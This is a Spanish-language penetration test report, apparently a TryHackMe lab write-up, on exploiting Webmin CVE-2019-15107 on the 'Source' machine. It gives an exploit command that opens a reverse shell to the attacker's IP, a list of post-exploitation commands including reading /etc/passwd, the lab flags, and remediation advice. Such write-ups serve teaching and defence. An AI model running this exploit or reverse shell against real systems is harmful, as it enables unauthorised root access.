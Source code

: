 ```yaml
---
title: "Informe de Prueba de Penetración – Máquina Source"
author: "Raúl Durán Ortiz"
date: "2025-08-15"
classification: "Confidencial"
---
```


### **1. Resumen Ejecutivo**

En esta prueba de penetración, se evaluó la seguridad de la máquina "Source" (IP: `10.201.65.181`). Se descubrió una vulnerabilidad crítica de ejecución remota de comandos (RCE) no autenticada en el servicio Webmin, identificada como **CVE-2019-15107**. Esta vulnerabilidad fue explotada exitosamente desde la IP del atacante (`10.23.159.27`), otorgando acceso completo al sistema con privilegios de `root`.

**Hallazgo Principal:**
*   **Vulnerabilidad:** Ejecución Remota de Comandos en Webmin (CVE-2019-15107).
*   **Riesgo:** Crítico.
*   **Impacto:** Compromiso total del sistema, permitiendo a un atacante tomar control absoluto del servidor.

Se recomienda aplicar de manera urgente las medidas de remediación detalladas en la sección 6 de este informe, comenzando por la actualización inmediata del software Webmin.

---

### **2. Detalles de la Evaluación**

*   **Objetivo:** Evaluar la seguridad del host "Source" e identificar fallos que permitan el acceso no autorizado.
*   **Alcance (IP Víctima):** `10.201.65.181`
*   **IP del Atacante:** `10.23.159.27` (Desde esta IP se originaron las pruebas y se recibió la conexión inversa).

---

### **3. Metodología**

Se siguió una metodología estándar de pruebas de penetración, que incluye las siguientes fases:

1.  **Reconocimiento:** Escaneo de puertos y servicios con `nmap`.
2.  **Enumeración:** Análisis de los servicios descubiertos y búsqueda de directorios web con `gobuster`.
3.  **Explotación:** Aprovechamiento de la vulnerabilidad CVE-2019-15107 para obtener acceso.
4.  **Post-explotación:** Búsqueda de información sensible y demostración del impacto.

---

### **4. Fase de Enumeración: Hallazgos Detallados**

*   **Herramientas:** `nmap`, `gobuster`.
*   **Resultados del Escaneo de Puertos:**
    *   Puerto `10000/tcp` abierto, correspondiente al panel de administración de Webmin.
*   **Análisis de Servicios:**
    *   La versión de Webmin detectada (anterior a 1.930) es vulnerable a **CVE-2019-15107**, que permite la inyección de comandos en el parámetro `old` del fichero `password_change.cgi`.
*   **Descubrimientos Adicionales:**
    *   Se identificó un directorio `/source` que exponía el código fuente de una aplicación, lo que representa un riesgo de divulgación de información.

---

### **5. Fase de Explotación y Post-Explotación**

Se explotó exitosamente la vulnerabilidad CVE-2019-15107 utilizando un script público para establecer una *reverse shell* hacia la máquina del atacante.

*   **Comando de Explotación:**
    ```bash
    ./webmin_exploit.py 10.201.65.181 10000 10.23.159.27 4444
    ```
    Donde los parámetros son:
    -   `10.201.65.181`: IP de la máquina víctima (Source).
    -   `10000`: Puerto del servicio Webmin vulnerable.
    -   `10.23.159.27`: IP de la máquina atacante (LHOST) para recibir la conexión.
    -   `4444`: Puerto de escucha en la máquina atacante (LPORT).

*   **Resultado:**
    *   Se obtuvo una *reverse shell* con privilegios de `root`.
*   **Evidencias (Flags):**
    *   `user.txt`: `THM{SUPPLY_CHAIN_COMPROMISE}`
    *   `root.txt`: `THM{UPDATE_YOUR_INSTALL}`

**Comandos Ejecutados Post-Explotación:**

| Comando           | Descripción                            |
| :---------------- | :------------------------------------- |
| `whoami`          | Verificar el usuario actual (`root`).  |
| `uname -a`        | Obtener información del sistema operativo. |
| `cat /etc/passwd` | Listar los usuarios del sistema.       |
| `cat /root/root.txt` | Leer la flag del usuario `root`.       |

---

### **6. Recomendaciones y Remediación**

Se recomienda aplicar las siguientes medidas correctivas, priorizadas por nivel de riesgo:

| Prioridad | Recomendación                  | Detalle                                                                                      |
| :-------- | :----------------------------- | :------------------------------------------------------------------------------------------- |
| **Crítica** | **Actualizar Webmin**            | Actualizar a la última versión estable para mitigar la vulnerabilidad CVE-2019-15107.      |
| **Alta**    | **Restringir Acceso**            | Implementar un firewall para limitar el acceso al puerto 10000, permitiendo únicamente IPs autorizadas. |
| **Media**   | **Eliminar Código Fuente Expuesto** | Borrar el directorio `/source` para evitar la divulgación de información sensible.          |
| **Baja**    | **Monitorización y Alertas**     | Configurar alertas para detectar intentos de acceso no autorizados a puertos administrativos. |

---

### **7. Anexos**

*   **Anexo A:** Capturas de pantalla de la explotación (`evidencias/source/exploit.png`).
*   **Anexo B:** Logs de la herramienta (`evidencias/source/logs.txt`).
